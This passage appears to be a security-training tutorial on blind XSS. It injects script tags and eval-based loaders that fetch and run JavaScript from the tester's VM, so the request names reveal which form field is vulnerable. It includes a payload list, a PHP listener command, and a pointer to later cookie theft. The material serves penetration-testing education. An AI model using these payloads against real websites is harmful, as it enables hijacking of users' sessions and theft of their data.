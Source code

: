 In HTML, we can write JavaScript code within the `<script>` tags, but we can also include a remote script by providing its URL, as follows:
```html
<script src="http://OUR_VM_IP/script.js"></script>
```
So, we can use this to execute a remote JavaScript file that is served on our VM. We can change the requested script name from script.js to the name of the field we are injecting in, such that when we get the request in our VM, we can identify the vulnerable input field that executed the script, as follows:
```html
<script src="http://OUR_VM_IP/username"></script>
```
If we get a request for /username, then we know that the username field is vulnerable to XSS, and so on. With that, we can start testing various XSS payloads that load a remote script and see which of them sends us a request. The following are a few examples we can use from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):
```html
<script src=http://OUR_VM_IP></script>
'><script src=http://OUR_VM_IP></script>
"><script src=http://OUR_VM_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_VM_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_VM_IP");a.send();</script>
<script>$.getScript("http://OUR_VM_IP")</script>
```
As we can see, various payloads start with an injection like `'>`, which may or may not work depending on how our input is handled in the backend. As previously mentioned in the XSS Discovery section, if we had access to the source code (i.e., in a DOM XSS), it would be possible to precisely write the required payload for a successful injection. This is why Blind XSS has a higher success rate with DOM XSS type of vulnerabilities.

Before we start sending payloads, we need to start a listener on our VM, using netcat or php as shown in a previous section:
```
user@htb[/htb]$ mkdir /tmp/tmpserver
user@htb[/htb]$ cd /tmp/tmpserver
user@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```
Now we can start testing these payloads one by one by using one of them for all of input fields and appending the name of the field after our IP, as mentioned earlier, like:
```html
<script src=http://OUR_VM_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_VM_IP/username></script> #this goes inside the username field
...SNIP...
```
If we write a payload containing `<script src=http://OUR_VM_IP/fullname></script>`, it means that we must create `script.js` file (we can rename it as we want, i.e., `username` file) inside `/tmp/tmpserver` folder. This file will contain the javascript code for catching user cookies as shown in the next section. The name of the file is not related to the ID string of the input form, we can use any filename we want.

Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.
